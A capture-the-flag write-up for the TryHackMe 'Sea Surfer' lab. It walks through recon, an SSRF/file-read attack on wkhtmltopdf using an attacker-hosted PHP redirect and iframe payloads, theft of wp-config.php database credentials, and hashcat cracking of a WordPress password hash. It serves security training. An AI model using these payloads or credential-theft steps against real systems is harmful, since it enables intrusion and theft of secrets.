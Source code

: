 # TryHackMe: Sea Surfer Writeup

## Recon

We start out with a basic recon nmap scan. This reveals that there's an http and ssh service. Trying an anonymous logon to ssh doesn't work.

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -sV -sC -T4 -p- -oN tcp.nmap 10.10.10.210
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-29 00:57 EST
Nmap scan report for 10.10.10.210
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87:e3:d4:32:cd:51:d2:96:70:ef:5f:48:22:50:ab:67 (RSA)
|   256 27:d1:37:b0:c5:3c:b5:81:6a:7c:36:8a:2b:63:9a:b9 (ECDSA)
|_  256 7f:13:1b:cf:e6:45:51:b9:09:43:9a:23:2f:50:3c:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/29%OT=22%CT=1%CU=40178%PV=Y%DS=2%DC=T%G=Y%TM=63D60C4
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   151.73 ms 10.18.0.1
2   151.90 ms 10.10.10.210

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 394.93 seconds
```


Checking the website, there's only a default template page. But looking at the headers reveals a domain.

![](images/1.PNG)

```
┌──(kali㉿kali)-[~]
└─$ curl -v 10.10.56.149       
*   Trying 10.10.56.149:80...
* Connected to 10.10.56.149 (10.10.56.149) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.56.149
> User-Agent: curl/7.84.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 30 Jan 2023 00:41:11 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Last-Modified: Sun, 17 Apr 2022 18:54:09 GMT
< ETag: "2aa6-5dcde2b3f2ff9"
< Accept-Ranges: bytes
< Content-Length: 10918
< Vary: Accept-Encoding
< X-Backend-Server: seasurfer.thm
< Content-Type: text/html
< 
[...]
```

We add this domain to our hosts file with `echo "10.18.72.160   seasurfer.thm" >> /etc/hosts`.

![](images/2.PNG)

We click around the website. Check all the posts and info. It says it was made by "kyle", we'll keep that info for later. The comments also reveal a subdomain, which we also add to our hosts file with `echo "10.18.72.160   internal.seasurfer.thm" >> /etc/hosts`.

![](images/3.PNG)

## SSRF and LFI

The "internal" subdomain appears to generate PDFs based on the form. 

![](images/4.PNG)

We can try to inject `<h1>asdf</h1>` in a field to see if it will display in the outputted PDF file. It does. We can potentially attack this with SSRF or local file inclusion. Trying `<iframe height="2000" width="800" src="file:///etc/passwd"></iframe>` doesn't work though.

![](images/5.PNG)

Looking at the properties of the pdf file (on chrome: three dots top right corner > document properties), we see that the website uses wkhtmltopdf to generate the pdfs from this form.

```
Document properties
File name:      29012023-9OZtn8ojlr6zLl4zY3mI.pdf
File size:	    52.9 KB
Title:          Receipt
Author:	        -
Subject:	      -
Keywords:	      -
Created:	      1/29/23, 3:35:48 PM
Modified:	      -
Application:   	wkhtmltopdf 0.12.5
PDF producer: 	Qt 4.8.7
PDF version:  	1.4
Page count: 	  1
Page size:  	  8.26 × 11.69 in (portrait)
Fast web view:	No
```

A quick search reveals that this program is vulnerable to local file inclusion and SSRF. We can try to get the server to read us some data.

On kali, we host a file by running `service apache2 start`. Then we create a payload in /var/www/html/ named payload.php.
```php
<?php
     header('location:file:///etc/passwd');
?>
```

We put this into one of the fields in the form and submit it.
```html
<iframe height="2000" width="800" src=http://KALI_IP/payload.php></iframe>
<iframe height="2000" width="800" src="http://KALI_IP/payload.php"></iframe>
```

Success. We can read /etc/passwd.

![](images/6.PNG)

We edit the payload to see what user is running.

```php
<?php
     header('location:file:///proc/self/status');
?>
```

Uid 33 33 = www-data from the /etc/passwd we got earlier.

![](images/7.PNG)

Tried to see if we can access logs for Log Poisoning. Fruitless, just gives a blank iframe.
```
/var/log/auth.log
/var/log/apache2/access.log
/var/log/vsftpd.log
/var/log/apache2/error.log
```

Tried to read wp-config.php. We know that the website is being run out of /var/www, so the file is somewhere in the directory/subdirectory. The last one worked.
```
/var/www/wp-config.php
/var/www/html/wp-config.php
/var/www/seasurfer/wp-config.php
/var/www/wordpress/wp-config.php
```

wp-config.php gives us database credentials.
```
[...]
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wordpressuser' );
/** Database password */
define( 'DB_PASSWORD', 'coolDataTablesMan' );
/** Database hostname */
define( 'DB_HOST', 'localhost' );
/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
[...]
```

![](images/8.PNG)

## Enumeration and Credentials

Enumerating seasurfer.thm with `gobuster dir -u seasurfer.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt` reveals the usual wp login pages, as well as /adminer, which appears to be the database for these credentials.

![](images/4.1.PNG)

We log in to the database.

![](images/9.PNG)

We can see the users table.

![](images/10.PNG)

Lets grab the hash from kyle and crack it with `hashcat -O -m 400 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt`.

cracked.txt
```
$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/:jenny4ever
```

Note that can also just change kyle's password. WP uses a Portable PHP hash. This website does it for us: http://scriptserver.mainframe8.com/wordpress_password_hasher.php

![](images/11.PNG)

We can change the hash in the database to "password", or `$P$BIaoue8/jCS/3qVUc3JVPSvXzvmdt.1`. Not necessary since we already cracked it.
